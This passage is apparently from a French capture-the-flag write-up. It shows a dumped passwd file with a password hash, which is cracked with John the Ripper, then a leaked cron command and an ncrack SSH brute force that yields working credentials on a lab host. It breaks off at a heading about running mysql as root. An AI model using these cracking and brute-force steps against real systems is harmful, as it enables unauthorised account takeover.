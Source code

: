 ```
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

Le hash se casse rapidement :

```console
$ john --wordlist=wordlists/rockyou.txt /tmp/hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Note: Passwords longer than 5 [worst case UTF-8] to 15 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
hiphop           (oracle)     
1g 0:00:00:00 DONE (2025-07-02 22:32) 50.00g/s 19200p/s 19200c/s 19200C/s alyssa..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Avec `pspy` qui était déjà présent sur la machine, je vois passer cette commande :

```console
2025/07/02 20:48:01 CMD: UID=0    PID=22224  | /bin/sh -c tar -cvzf /root/html.tar.gz /var/www/html/ -ulissy -pgangsta
```

Clairement, les options `-u` et `-p` n'ont pas de sens pour `tar`. On pourrait penser que ce sont des identifiants valides, mais en fait non, ils sont refusés.

Du coup, j'ai fait un bète brute-force des comptes restants :

```console
$ ncrack -f -U /tmp/users.txt -P wordlists/rockyou.txt ssh://192.168.56.127

Starting Ncrack 0.8 ( http://ncrack.org ) at 2025-07-02 22:37 CEST

Discovered credentials for ssh on 192.168.56.127 22/tcp:
192.168.56.127 22/tcp ssh: 'goat' 'thebest'

Ncrack done: 1 service scanned in 1114.22 seconds.

Ncrack finished.
```

### MyShell

L'utilisateur `thegoat` est autorisé à exécuter `mysql` avec les privilèges de `root` :
